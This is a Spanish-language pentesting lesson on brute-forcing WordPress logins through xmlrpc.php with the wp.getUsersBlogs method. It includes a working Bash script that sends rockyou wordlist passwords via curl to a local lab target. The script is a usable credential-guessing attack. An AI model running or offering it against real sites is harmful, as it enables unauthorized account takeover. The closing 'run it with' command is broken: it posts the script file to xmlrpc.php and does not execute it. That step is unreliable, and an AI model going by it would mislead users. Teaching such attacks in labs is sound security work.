 En esta clase, veremos cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo de este ejercicio será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta cURL para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.

Cabe destacar que el método wp.getUsersBlogs **no es el único método existente**, ni mucho menos la única vulnerabilidad en xmlrpc.php. Existen otros métodos como **wp.getUsers**, **wp.getAuthors** o **wp.getComments**, entre otros, que también pueden ser utilizados por atacantes para realizar ataques de fuerza bruta y comprometer la seguridad del sitio web de WordPress.

Por lo tanto, es importante tener en cuenta que la seguridad de un sitio web de WordPress no solo depende de tener contraseñas seguras y actualizadas, sino también de estar atentos a posibles vulnerabilidades en el archivo xmlrpc.php y otras áreas del sitio web.

### Script de bash
```bash
#!/bin/bash

function ctrl_c() {
  echo -e "\n\n[!] Exiting""\n"
  exit 1
}

#Ctrl+C
trap ctrl_c SIGINT

function createXML() {
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>andres</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>
"""

  echo $xmlFile >file.xml

  response=$(curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml)

  if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
    echo "Password found: $password"
    exit 0
  fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done
```
### Lo ejecutamos con: 
```bash
 curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@script.sh
```